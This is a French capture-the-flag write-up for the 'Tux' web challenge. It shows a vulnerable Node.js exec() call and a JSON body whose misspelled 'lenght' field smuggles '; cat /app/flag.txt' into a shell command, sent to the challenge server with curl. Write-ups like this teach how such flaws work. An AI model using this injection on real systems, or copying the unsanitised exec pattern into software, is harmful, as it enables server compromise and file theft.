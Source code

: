 # Tux (EASY)

## Auteur(s) :

`Hokanosekai`

## Catégorie : 

`Web`

## Description :

Des étudiants ont créé un site web à l'effigie de notre cher Tux. Cependant, ils ont commis une erreur... Déccouvrez la !

> Note : Le flag se situe dans `/app/flag.txt`

[https://tux.univhackon.fr](https://tux.univhackon.fr/)

[Tux.zip](./Tux.zip)

**Flag** `UHOCTF{Fake_flag}` 

---

## Solution

On commence donc par télécharger le fichier zip puis on l'extraie. En l'ouvrant on trouve le code source du site web.

Après une rapide analyse on comprend que la vulnérabilité se situe dans la fonction `execCowSay` qui permet d"xécuter une commande sur le serveur.

```js
function execCowSay(defaultLength) {
    return new Promise((resolve, reject) => {
        exec(`cowsay -f tux ${defaultLength}`, (error, stdout, stderr) => {
            console.log(stdout, stderr, error)
            if (error) reject(error);
            resolve(stdout? stdout : stderr);
        });
    });
}
```

Si l'on regarde le endpoint POST `/generate`, on voit une faute de frappe sur la variable `value`. Nous avons donc trouvé notre point d'entrée.

```js
newCow = new Tux(null, value.lenght)
```

> Length est mal orthographié en lenght

Nous allons donc pouvoir envoyer un objet JSON avec la propriété `lenght`.

```js
{
  "value": {
    "length": 155,
    "lenght": "2 > /dev/null; cat /app/flag.txt"
  }
}
```

Maintenant on peut envoyer notre requête avec curl.

```bash
hoka@hoka ~/c/U/UHOCTF (main)> curl -X POST https://tux.univhackon.fr/generate -H 'Content-Type: application/json' -d '{"value":{"length":155,"lenght": "2 > /dev/null;
 cat /app/flag.txt"}}'
{"code":" _________________________________________\n/ UHOCTF{Un_M4nch07_n'3s7_p4s_un_P1n90u1n \\\n\\ }                                       /\n -----------------------------------------\n   \\\n    \\\n        .--.\n       |o_o |\n       |:_/ |\n      //   \\ \\\n     (|     | )\n    /'\\_   _/`\\\n    \\___)=(___/\n\n"}⏎ 
```

On obtient donc le flag.

**Flag** `UHOCTF{Un_M4nch07_n'3s7_p4s_un_P1n90u1n}`